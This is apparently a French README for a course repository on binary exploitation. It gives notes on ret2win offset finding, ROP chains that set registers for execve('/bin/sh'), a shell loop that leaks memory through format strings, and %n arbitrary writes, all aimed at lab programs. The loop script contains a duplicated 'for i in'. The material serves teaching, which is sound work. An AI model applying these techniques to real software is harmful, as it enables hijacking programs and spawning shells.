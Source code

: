 # IF27
Fichiers et programmes de la présentation de IF27

**Ce document contient les fichiers et programmes pour réaliser les exploitations vues dans la présentation et le rapport de IF27**

*Installation*
```
git clone https://github.com/arthubhub/IF27.git
cd docker
./dockerMake.sh
```



*Aide*

# Ret2win :

Trouver l'offset : 
- gdb ./programme
- disass fonction_vulnerable
- b *[adresse après gets()]
- run < file #avec dans file : A1A2A3A4 ... (voir la commande cyclic)
- au breakpoint : info frame -> regarder saved eip et en déduire l'offset
Trouver l'adresse de win
- disass win -> prendre l'adresse de la première instruction
- echo -ne "OFFSET\xdd\xcc\xbb\xaa" | ./programme -> remplace saved eip par 0xaabbccdd

# ROPchain :
- trouver les gadgets : ROPgadget --binary ./programme | grep "pop ..x .*; ret"
- mettre /bin/sh à une adresse connue :
pop ebx ; ret
ebx = 0xffffa004
pop eax ; ret
eax = 0x0068732f
mov dword ptr [ebx], eax ; ret

## Le cas de execve :
- execve(”/bin/sh”,0,0)
- le numéro du syscall doit etre dans eax
- x86_32
    - eax=0xB
    - ebx=@ de “/bin/sh”
    - ecx=0
    - edx=0
- x86_64
    - rax=59
    - rdi=@ de “/bin/sh”
    - rsi=0
    - rdx=0

# Format string 

## Lire partout
```
#!/bin/sh
for i in for i in $(seq 1 2000)
do
   echo "%${i}\$s" | ./vuln_format_string | grep "Result of" | strings >> results
done
```
## Écrire où on veut

Pour finir, la chaine de formatage %n nous permet d’écrire. Elle écrit le nombre de caractères affichés jusque là, mais où?. Elle les écrit dans l’adresse qu’on lui donne, en argument. 
Par exemple : 

- `printf(”54321%n”,&i); //écrit 5 dans i`
- `printf(”ab54321%3$n”,&a,&b,&c); //écrit 7 dans c`

Donc ce qu’on peut faire, c’est envoyer une chaine de formatage comme “a1b2%x%x%x…”, compter le nombre de %x jusqu’à atteindre “a1b2”, puis remplacer ce %x par un %n. On écrit alors une valeur à l’adresse “a1b2”. On peut changer la valeur écrite en ajustant le nombre de caractères imprimés en modifiant un %x → %0Nx, par exemple %0134x. Il ne reste plus qu’à remplacer “a1b2” par l’adresse voulue ( \x78\x56\x34\x12 pour l’adresse 12345678 ).

Des options plus avancées sont “a1b2%Ax%B$n”. Cette chaine imprime 4+A dans l’argument numéro B+1.

